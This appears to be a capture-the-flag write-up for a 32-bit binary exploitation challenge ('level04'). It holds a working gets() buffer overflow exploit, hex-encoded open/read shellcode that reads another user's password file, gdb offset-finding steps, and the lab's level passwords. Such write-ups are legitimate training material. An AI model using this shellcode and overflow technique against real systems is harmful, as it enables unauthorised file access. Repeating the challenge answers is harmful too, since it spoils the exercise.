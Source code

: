 # Level04 - 32 bits - Can't use execve

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

So first of all, we notice that we have a fork and then we execute `gets` wich is vulnerable. After trying a buffer overflow to execute a shellcode with `execve("/bin/sh")` the program terminates with `SIGHUP`.

Indeed after some reflexions, we notice that after the fork, the parent process doesn't allow the child process to execute `execve` command :
`execve` command called by child process sends a `SIGTRAP` signal, which lets the control back to the parent process who kills the child procress and stops the program.

So the exploit would be to give it something else than `execve("/bin/sh")` => why not trying a shellcode which read/open the file `/home/users/level05/.pass` ?

First the offset :

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156
```

Then the shellcode exported in an environment variable :

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'"`
```

So the SHELLCODE = `255 NOPs + shellcode to open/read + the path`

Now we need this env variable's address and will add 100 to be sure to land into the NOPs of the shellcode :

```shell
./getenv32 SHELLCODE ~/level04
0xffffd79b

(in gdb)
p /x 0xffffd7b9 + 100
$2 = 0xffffd7ff
```

And finally use the exploit :

```shell
(python -c 'print("A" * 156 + "\xff\xd7\xff\xff")') | ~/level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)
- ['Open/Read + pathname' shellcode](http://shell-storm.org/shellcode/files/shellcode-73.php)
- [FR - Ecrivez votre premier shellcode en asm x86 ! (Exemple 2 : execve(/bin/sh))](https://zestedesavoir.com/articles/158/ecrivez-votre-premier-shellcode-en-asm-x86/#2-exemple-2-execve-bin-sh)

### C

- [PTRACE_TRACEME](http://manpagesfr.free.fr/man/man2/ptrace.2.html)
- [ret2libc](https://beta.hackndo.com/retour-a-la-libc/)

#### Questions

- [how does ptrace catch fork's system call?](https://stackoverflow.com/questions/20440118/how-does-ptrace-catch-forks-system-call)

#### Man

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)
